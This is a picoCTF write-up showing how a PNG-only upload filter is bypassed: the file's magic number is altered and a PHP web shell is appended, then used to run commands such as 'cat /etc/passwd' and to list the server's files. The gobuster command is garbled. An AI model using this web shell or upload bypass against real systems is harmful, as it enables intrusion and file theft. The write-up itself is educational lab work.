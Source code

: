 

**Objective:** 
Exploit a web application that only accepts `.png` files to achieve Remote Code Execution (RCE).

## Steps and Analysis:

### 1. Initial Observation:
- Accessed the website which prompted for a `.png` file upload.
- Screenshot:![image](https://github.com/iDeletedMyCDrive/PicoCTF/assets/163599712/ab871f28-4dec-44a9-a3fe-3aae2b6af7eb)

### 2. Dir busting
- `gobuster dir -u http://gobuster dir -u http://atlas.picoctf.net:62175/ -w /opt/SecLists/Discovery/Web-Content/raft-small-words.txt`
- Output
	- ![[Pasted image 20240315193009.png]]

### 3. File Preparation and Magic Number Manipulation:
- Downloaded a random image from the internet to use as a base.
- Altered the magic number in the file to match a PNG file.
- Screenshot of modified magic number: [Magic Number Modification]![[Pasted image 20240315190323.png]]
- _Note: The magic number (file signature) was altered to bypass file type checks by the website._


### 4. Embedding PHP Code:
- Appended PHP code to the image file to facilitate RCE using the following command:
  ```
  echo '<?php if(isset($_REQUEST["cmd"])){ echo "<pre>"; $cmd = ($_REQUEST["cmd"]); system($cmd); echo "</pre>"; die; }?>' >> PNG.png.php
  ```

### 5. Accessing the Uploaded File and Testing RCE:
- Navigated to the uploaded file’s URL: `atlas.picoctf.net:63517/uploads/PNG.png.php`
- Screenshots of the uploaded file in action: [File Location] ![[Pasted image 20240315191200.png]], 
- Confirmed RCE by executing a test command (`cat /etc/passwd`):
  ```
  atlas.picoctf.net:63517/uploads/PNG.png.php?cmd=cat /etc/passwd
  ```
- Screenshot of test command execution: [Test Command Execution![[Pasted image 20240315191311.png]]

### 6. Exploring the Server:
- Used the `pwd` command to print the current working directory, revealing the path: `/var/www/html/uploads`
-  `atlas.picoctf.net:63517/uploads/PNG.png.php?cmd=pwd`
	- `/var/www/html/uploads`

### 7. Listing Directory Contents:
- Listed directories in `/var/www/html`, identifying a file named `GNTDOMBWGIZDE.txt` as potentially interesting.
- Screenshot of directory listing: [Directory Listing]
- ![[Pasted image 20240315191622.png]]

### 8. Accessing the Identified File:
- Decided to investigate the `GNTDOMBWGIZDE.txt` file.
- Screenshot of the file's contents: [File Contents ![[Pasted image 20240315191801.png]]

**Conclusion:** 
Successfully achieved RCE by manipulating an image file’s magic number and embedding PHP code, allowing exploration of the server and identification of potential points of interest.
